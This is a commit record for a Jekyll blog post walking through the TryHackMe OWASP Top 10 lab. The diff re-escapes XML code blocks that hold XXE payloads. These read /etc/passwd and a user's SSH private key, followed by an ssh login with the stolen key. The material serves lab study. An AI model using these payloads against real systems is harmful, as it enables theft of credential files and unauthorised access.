

Before and after one commit to 4n3i5v74/4n3i5v74.github.io, a Jekyll site: the page built from _posts/2021-02-10-tryhackme-owasp-top-10.md, in a window 1280 px wide and 1400 px high, scrolled down 6303 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed lines change nothing that is shown.

Commit message:
Modified

```diff
--- a/_posts/2021-02-10-tryhackme-owasp-top-10.md
+++ b/_posts/2021-02-10-tryhackme-owasp-top-10.md
@@ -195,14 +195,14 @@ Nmap done: 1 IP address (1 host up) scanned in 1.90 seconds{% endraw %}{% endcap
 
 Use `firefox` to load url `http://<ip>` and try the below payloads.
 
-{% capture code %}{% raw %}<!DOCTYPE replace [<!ENTITY name "feast"> ]>
+{% capture code %}<!DOCTYPE replace [<!ENTITY name "feast"> ]>
     <userInfo>
         <firstName>falcon</firstName>
-        <lastName>&name;</lastName>
-    </userInfo>{% endraw %}{% endcapture %} {% include code.html code=code lang="xml"%}
+        <lastName>&amp;name;</lastName>
+    </userInfo>{% endcapture %} {% include code.html code=code lang="xml"%}
 
-{% capture code %}{% raw %}<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
-<root>&read;</root>{% endraw %}{% endcapture %} {% include code.html code=code lang="xml"%}
+{% capture code %}<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
+<root>&amp;read;</root>{% endcapture %} {% include code.html code=code lang="xml"%}
 
 The first payload will display `falcon feast` and the second payload will display contents of system file `/etc/passwd`.
 
@@ -212,12 +212,12 @@ The first payload will display `falcon feast` and the second payload will displa
 Use `firefox` to load the url `http://<ip>`
 
 Use the following payloads to get the contents of `/etc/passwd`.
-{% capture code %}{% raw %}<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
-<root>&read;</root>{% endraw %}{% endcapture %} {% include code.html code=code lang="xml"%}
+{% capture code %}<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
+<root>&amp;read;</root>{% endcapture %} {% include code.html code=code lang="xml"%}
 
 There is one non-system user. Use the following payload to read the user's rsa private key.
-{% capture code %}{% raw %}<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///home/<user>/.ssh/id_rsa'>]>
-<root>&read;</root>{% endraw %}{% endcapture %} {% include code.html code=code lang="xml"%}
+{% capture code %}<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///home/<user>/.ssh/id_rsa'>]>
+<root>&amp;read;</root>{% endcapture %} {% include code.html code=code lang="xml"%}
 
 Copy the contents of payload output to new file. Change the permission of the file to be more stricter, like `chmod 400 <user>_id_rsa` and use `ssh` to login to the machine using downloaded user's ssh private key.
 {% capture code %}{% raw %}ssh -i <user>_id_rsa <user>@<ip>{% endraw %}{% endcapture %} {% include code.html code=code %}
```
